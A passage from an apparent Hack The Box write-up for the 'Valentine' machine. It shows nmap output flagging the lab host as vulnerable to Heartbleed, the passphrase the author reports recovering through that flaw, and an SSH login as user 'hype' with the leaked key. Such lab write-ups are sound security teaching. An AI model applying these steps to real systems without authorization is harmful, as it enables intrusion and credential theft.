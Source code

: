 ```console
  Supported Server Cipher(s):

  SSL Certificate:
Signature Algorithm: sha1WithRSAEncryption
RSA Key Strength:    2048

Subject:  valentine.htb
Issuer:   valentine.htb

Not valid before: Feb  6 00:45:25 2018 GMT
Not valid after:  Feb  6 00:45:25 2019 GMT
```

But the nmap script:

```console
$ nmap --script=ssl-heartbleed.nse 10.10.10.79 -p443

PORT    STATE SERVICE
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
```

---

# Footprint

## Initial Access

Exploiting **Heartbleed** give us a base64, that decode says **heartbleedbelievethehype**. We can now use this text for the passprhase in the previous id_rsa. As the file is called **hype_key**, let’s try with that user:

```console
$ ssh hype@10.10.10.79 -i id_rsa -o 'PubkeyAcceptedKeyTypes +ssh-rsa' 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$
```

